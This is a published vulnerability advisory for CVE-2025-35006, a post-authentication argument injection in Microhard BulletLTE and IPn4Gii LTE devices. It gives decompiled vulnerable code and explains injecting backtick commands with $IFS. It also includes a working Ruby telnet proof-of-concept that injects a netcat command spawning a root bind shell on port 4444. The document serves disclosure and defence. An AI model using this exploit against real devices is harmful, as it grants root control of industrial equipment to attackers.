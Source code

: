 ```yaml
---
title: CVE-2025-35006
aliases:
  - /cves/CVE-2025-35006.html
pubDate: 2025-06-08T15:58:51-05:00
---
```

I​CVE-2025-35006: Microhard Bullet-LTE and IPn4Gii AT+MFPORTFWD Argument Injection

[AHA!] has discovered an issue with multiple Microhard products, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] on June 8, 2025. [CVE-2025-35006] has been assigned to this issue.

Any questions about this disclosure should be directed to cve@takeonme.org.

# Executive Summary

Products that incorporate the Microhard [BulletLTE-NA2] and [IPn4Gii-NA2] are vulnerable to a post-authentication command injection issue that can lead to privilege escalation. This is an instance of [CWE-88](https://cwe.mitre.org/data/definitions/88.html), "Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')," and is estimated as a CVSS [7.1](https://www.first.org/cvss/calculator/3-1#CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N).

# Technical Details

A command injection vulnerability exists within the AT+MFPORTFWD command in the restricted CLI interface of multiple Microhard products. Authentication is required to exploit this vulnerability in that you must have a user account to access the CLI via telnet. However, the service is running as root, so injecting commands allows an attacker to escape the restricted shell and elevate privileges for full access.

The [firmware] for affected devices contains the binary `/bin/clitest`, which handles the restricted CLI interface. It is reachable via telnet or ssh connection. It allows the user to run certain config commands as well as AT+ commands to interact with the Quectel modem. One of these AT+ commands is AT+MFPORTFWD which is used for querying/configuring the firewall port forwarding rules. User input supplied to the cmd_firewall_port_forwarding() function in param_3 and is used as an argument for the /etc/m_cli/atcmd_sh_firewall.sh script which is called via popen():

```
undefined4 cmd_firewall_port_forwarding(undefined4 param_1,undefined4 param_2,char **param_3,int param_4)
{
	...
          else if (param_4 == 9) {
            iVar3 = strcasecmp(acStack_1e7c,"ADD");
            if (iVar3 == 0) {
              sprintf(acStack_1cfc,"sh /etc/m_cli/atcmd_sh_firewall.sh portfwd_check_name %s",
                      acStack_1ebc);
              iVar3 = FUN_0000e9a0(param_1,acStack_1cfc,acStack_1c7c,0x100);
              if ((iVar3 == 0) || (iVar3 = strcmp(acStack_1c7c,"OK"), iVar3 != 0))
              goto LAB_0002832c;
            }
	...
}

size_t FUN_0000e9a0(undefined4 param_1,char *param_2,void *param_3,size_t param_4)
{
  FILE *__stream;
  char *__s;
  size_t sVar1;

  __stream = popen(param_2,"r");
  if (__stream != (FILE *)0x0) {
    memset(param_3,0,param_4);
    fread(param_3,1,param_4,__stream);
    pclose(__stream);
    __s = (char *)trimwhitespace(param_3);
    sVar1 = strlen(__s);
    return sVar1;
  }
  cli_print(param_1,"ERROR: Failed to run script");
  return 0;
}
```

If an attacker wraps input to the AT+MFPORTFWD command in `$()` (dollar-parentheses) or backticks (which are tricky to render in Markdown!) they can put whatever command they want and it will be run as the root user. Note that spaces are not allowed, so $IFS must be used instead for space-delimited arguments for the command payload.

The Ruby script below effectively demonstrates an attack using [CVE-2025-35006] as a proof-of-concept:

```ruby
#!/usr/bin/env ruby
require 'net/telnet'
require 'io/console'

if !ARGV[0]
  puts "usage: #{$0} <ip> [<username> <password>]"
  exit(1)
end

target = ARGV[0]
if ARGV[1] && ARGV[2]
  user = ARGV[1]
  pass = ARGV[2]
else
  printf("user: ")
  user = STDIN.gets.chomp
  printf("pass: ")
  pass = STDIN.noecho(&:gets).chomp
  puts ""
end

telnet = Net::Telnet::new("Host" => target, "Timeout" => 2, "Prompt" => /^\w+>/)
telnet.login(user,pass) {|c| print c}
begin
  telnet.cmd("at+mfportfwd=`nc$IFS-lvp$IFS\\4444$IFS-e$IFS/bin/sh$IFS-i`") {|c| print c}
rescue
  puts "shell spawned on #{ARGV[0]}:4444"
  pid = spawn("nc -v #{ARGV[0]} 4444")
  Process.wait pid
end

telnet.close

```

# Attacker Value

If an attacker has a valid credential to the affected Microhard device, and the means to login (for example, over telnet), that attacker can leverage this vulnerability to escape the restricted shell and elevate privileges to root. Industrial control systems (ICS) are often deployed with easy to guess or default credentials, which could be used in conjunction with [CVE-2025-35006] to achieve complete, root-level remote control over affected devices.

# Credit

This vulnerability was discovered and documented by Ricky "HeadlessZeke" Lawshae of Keysight.

# Timeline

* 2025-03-27 (Thu): Presented at regularly scheduled AHA! meeting 0x00df
* 2025-04-02 (Wed): Contact initiated to several guessed email aliases, such as info@microhardcorp.com,  support@microhardcorp.com, etc.
* 2025-04-02 (Wed): Bounces collected from media@, press@, security@, and secure@. No bounce notification was generated from info@ and support@, though a customer account was required to further communicate with support@, which [AHA!] does not have.
* 2025 (April and May): No further communication from the vendor was received.
* 2025-06-08 (Sun): Verified current IPn4Gii/BulletLTE [firmware] remains at v1.2.0-r1132
* 2025-06-08 (Sun): Public disclosure of [CVE-2025-35006]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2025-35006]: https://www.cve.org/CVERecord?id=CVE-2025-35006
[BulletLTE-NA2]: https://www.microhardcorp.com/BulletLTE-NA2.php
[IPn4Gii-NA2]: https://www.microhardcorp.com/IPn4Gii-NA2.php
[firmware]: https://support.microhardcorp.com/portal/en/kb/articles/ipn4gii-bullet-lte-firmware
